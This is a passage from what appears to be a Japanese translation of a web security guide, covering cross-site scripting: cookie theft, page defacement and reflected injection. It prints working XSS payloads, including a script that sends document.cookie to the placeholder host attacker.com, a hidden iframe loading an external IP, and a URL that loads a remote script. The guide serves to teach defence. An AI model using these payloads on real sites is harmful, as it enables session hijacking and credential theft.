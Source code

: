 このJavaScriptコードを実行すると、警告ボックスが1つ表示されるだけです。次の例は、見かけの動作はまったく同じですが、通常ではありえない場所にコードが置かれています。

```html
<img src="javascript:alert('Hello')">
<table background="javascript:alert('Hello')">
```

##### Cookie窃盗

上の例では何の害も生じないので、今度は攻撃者がユーザーのcookieを盗み出す方法（およびそれを用いてセッションをハイジャックする方法）を見ていきましょう。JavaScriptでは、`document.cookie`プロパティでドキュメントのcookieを読み書きできます。ブラウザのJavaScriptには同一オリジンポリシーが強制的に適用されます。これは、あるドメインから送り込まれたスクリプトからは、別のドメインのcookieにアクセスできないようにするポリシーです。`document.cookie`プロパティには、オリジンWebサーバーのcookieが保存されています。しかし、HTMLドキュメントに直接コードを埋め込むと（XSSによって発生すると）、このプロパティを読み書きできてしまいます。このコードを自分のWebアプリケーションの適当な場所に手動で注入してみれば、そのページに含まれている自身のcookieが表示されることを確かめられます。

```html
<script>document.write(document.cookie);</script>
```

もちろん、攻撃者にしてみれば標的ユーザーが自分で自分のcookieを表示したところで何の意味もありません。次の例では`http://www.attacker.com/`というURLから画像とcookieを読み込みます。言うまでもありませんが、このURLは実際には存在しませんので、ブラウザには何も表示されません（訳注: 現在は売り物件のWebページがあるようです）。ただし攻撃者が自分たちのWebサーバーのアクセスログファイルを調べて標的ユーザーのcookieを参照する可能性もあります。

```html
<script>document.write('<img src="http://www.attacker.com/' + document.cookie + '">');</script>
```

www.attacker.com サイト上のログファイルには以下のように出力されます。

```
GET http://www.attacker.com/_app_session=836c1c25278e5b321d6bea4f19cb57e2
```

`httpOnly`フラグをcookieに追加することで、この攻撃を明示的に緩和できます。これにより、`document.cookie`をJavaScriptで読み出せなくなります。`httpOnly` cookieは、IE v6.SP1、Firefox v2.0.0.5、Opera 9.5、Safari 4、Chrome 1.0.154以降で利用できます。ただしWebTVやMac版IE 5.5などの古いブラウザでは、ページ上での読み込みに失敗します。なお、[Ajaxを使うとcookieが表示可能になる](https://owasp.org/www-community/HttpOnly#browsers-supporting-httponly)ことにもご注意ください。

##### Webページの汚損

Webページを書き換える（汚損する）ことで、偽の情報を表示したり、標的ユーザーを攻撃者の偽サイトに誘い込んでcookieやログイン情報などの重要データを盗み出すなどのさまざまな攻撃が可能になります。最も多い攻撃は、以下のように`iframe`タグを悪用して外部のコードをWebページに含める方法です。

```html
<iframe name="StatPage" src="http://58.xx.xxx.xxx" width=5 height=5 style="display:none"></iframe>
```

このコードによって、外部にある任意のHTMLやJavaScriptが読み込まれ、Webサイトの一部として埋め込まれます。上のiframeは、イタリアにあるWebサイトへの[Mpack攻撃フレームワーク](http://isc.sans.org/diary.html?storyid=3015)による攻撃で実際に用いられたものです。MpackはWebブラウザのセキュリティホールを介して悪質なソフトウェアをインストールしようとします。攻撃の成功率は50%を誇っています。

さらに特殊な攻撃としては、偽のWebサイト全体またはログインフォームを上に重ねて表示するという手口があります。これらは元のサイトと一見そっくりですが、入力されたユーザー名とパスワードを密かに攻撃者のサイトに送信します。あるいは、CSSやJavaScriptを駆使してWebアプリケーション上の本物のリンクを隠して別のリンクを表示し、ユーザーを偽のサイトにリダイレクトするという手法もあります。

反射型インジェクション（Reflected injection）攻撃は、後で標的ユーザーに表示するペイロードを実際には保存せず、代わりにURLに長大な文字列として仕込んでおく手法です。特に検索フォームで検索文字列のエスケープに失敗します。以下のリンク先には、「ジョージ・ブッシュが9歳の男の子を議長に任命」と書かれたページが表示されていました。

```
http://www.cbsnews.com/stories/2002/02/15/weather_local/main501644.shtml?zipcode=1-->
  <script src=http://www.securitylab.ru/test/sc.js></script><!--
```

